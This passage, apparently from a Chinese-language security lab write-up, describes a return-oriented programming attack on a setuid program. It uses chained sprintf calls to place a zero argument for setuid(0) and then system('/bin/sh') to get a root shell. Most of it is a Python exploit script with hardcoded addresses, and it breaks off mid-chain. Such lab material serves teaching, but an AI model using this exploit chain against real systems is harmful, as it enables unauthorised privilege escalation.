    
   4. ROP攻击实验三（参数存在0）
   
      可以通过调用sprintf函数传递setuid的参数0，然后使用setuid(0)时real user ID = effective user ID = 0，从而使得bash/dash在判断real user ID和effecive user ID时发现两者一致，从而使保护失效。然后调用system('/bin/sh')获取root权限的shell，最终调用exit函数防止程序无法正常退出。
   
      构造python脚本如下：
   
      ```python
      #!/usr/bin/env python3
      import sys
      
      def tobytes(value):
        return (value).to_bytes(4,byteorder="little")
      
      
      printf_addr = 0xf7e20de0    # The address of printf()
      exit_addr = 0xf7e04f80  # The address of exit()
      leaveret = 0x565562ce
      bash_addr = 0xffffd3de
      ebp_foo = 0xffffc968
      sprintf_addr = 0xf7e20e40
      setuid_addr = 0xf7e99e30
      system_addr = 0xf7e12420
      
      # Calculate the address of setuid()'s 1st argument
      sprintf_arg1 = ebp_foo + 12 + 5*0x20
      # The address of a byte that contains 0x00
      sprintf_arg2 = bash_addr + len("/bin/sh")
      
      # Fill content with non-zero values
      content = bytearray(0xaa for i in range(112))
      
      ebp_next = ebp_foo + 0x20
      content += tobytes(ebp_next)  # Next ebp value
      content += tobytes(leaveret)
      content += b'A' * (0x20-2*4)  # Fill up the frame
      
      # sprintf(sprintf_arg1, sprintf_arg2)
      for i in range(4):
        ebp_next += 0x20
        content += tobytes(ebp_next)
        content += tobytes(sprintf_addr)
        content += tobytes(leaveret)
        content += tobytes(sprintf_arg1)
        content += tobytes(sprintf_arg2)
        content += b'A' * (0x20-5*4)
        sprintf_arg1 += 1
      
      # setuid(0)
      ebp_next += 0x20
      content += tobytes(ebp_next)
      content += tobytes(setuid_addr)
      content += tobytes(leaveret)
      content += tobytes(0xFFFFFFFF)
      content += b'A'*(0x20-4*4)
      